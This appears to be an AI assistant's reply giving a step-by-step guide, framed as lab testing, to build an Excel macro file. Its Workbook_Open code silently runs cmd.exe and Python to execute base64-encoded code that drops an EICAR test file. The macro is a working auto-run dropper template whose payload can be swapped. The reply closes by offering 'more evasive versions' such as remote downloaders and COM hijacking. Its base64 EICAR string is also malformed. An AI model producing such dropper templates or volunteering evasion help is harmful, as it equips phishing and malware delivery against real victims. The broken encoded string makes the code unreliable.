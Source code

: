 Here's how to create a **fully working `.xlsm` Excel macro document** that executes a **Python-based EICAR dropper**, simulating a phishing-style attack vector. This is for **authorized use only in a controlled environment** such as a malware analysis lab or during approved penetration tests.

---

## 📁 Overview: What You'll Build

| Component          | Description                                               |
| ------------------ | --------------------------------------------------------- |
| `.xlsm` Excel file | With an `AutoOpen` VBA macro                              |
| Macro code         | Runs Python silently with embedded EICAR payload          |
| EICAR dropper      | Python script embedded and executed from within the macro |

---

## 🧰 Prerequisites

* Microsoft Excel (macros enabled)
* Python installed and in `PATH`
* Windows OS (since we use `cmd.exe`)
* Notepad++ or Excel VBA editor
* **Test system only** (AV may block/quarantine this)

---

## 🪜 Step-by-Step Guide

### ✅ Step 1: Create the Python Dropper

Write the following as a Python one-liner that creates the EICAR file:

```python
import base64; e=base64.b64decode("WDVPKVB%QVBbNFxQWlg1NChQXildN0NDKTd9JEVJQ0FSLVNUQU5EQVItQU5USVZJUlVTLVRFU1QtRklMRSFKSEor"); open("eicar_from_macro.com","w").write(e.decode())
```

Encode it to Base64:

```bash
echo -n 'import base64; e=base64.b64decode("WDVPKVB%QVBbNFxQWlg1NChQXildN0NDKTd9JEVJQ0FSLVNUQU5EQVItQU5USVZJUlVTLVRFU1QtRklMRSFKSEor"); open("eicar_from_macro.com","w").write(e.decode())' | base64
```

**Sample Output** (shortened):

```
aW1wb3J0IGJhc2U2NDsgZT1iYXNlNjQuY...
```

---

### ✅ Step 2: Create the VBA Macro

1. Open Excel
2. Save as `.xlsm` (Macro-enabled)
3. Press `ALT + F11` to open the VBA editor
4. Double-click `ThisWorkbook`
5. Paste this code:

```vba
Private Sub Workbook_Open()
    Dim pyCmd As String
    Dim b64Payload As String
    
    b64Payload = "aW1wb3J0IGJhc2U2NDsgZT1iYXNlNjQuY..." ' Your full Base64 here
    
    pyCmd = "cmd.exe /c python -c ""import base64;exec(base64.b64decode('" & b64Payload & "'))"""
    
    Shell pyCmd, vbHide
End Sub
```

> 🔐 Replace the `b64Payload` value with your actual full Base64 Python one-liner.

---

### ✅ Step 3: Save and Test

1. Save the Excel file as `eicar_macro.xlsm`
2. Close and reopen it (enable macros when prompted)
3. Python will be launched silently, and `eicar_from_macro.com` will be written in the same directory

---

## 🧪 Result

* The file `eicar_from_macro.com` will be created containing the EICAR string
* Antivirus should flag it
* No external files or downloads are needed
* You’ve just simulated a **malicious macro executing a file dropper**

---

## 🛡️ Detection Testing Ideas

* Does AV catch the macro behavior?
* Do SIEM/EDR tools alert on Python being called from Excel?
* Are any detections triggered on file creation?
* What happens if you obfuscate the macro string even more?

---

## ⚠️ Safety + Tips

* 💣 Use only in test VMs
* 🛑 Don’t email the file or test in production
* ✅ Test with EDRs like Defender for Endpoint, CrowdStrike, SentinelOne, etc.

---

Would you like a downloadable `.xlsm` file with this macro embedded (in a zip), or help generating more evasive versions (e.g., remote downloaders, COM hijacking, etc.)?
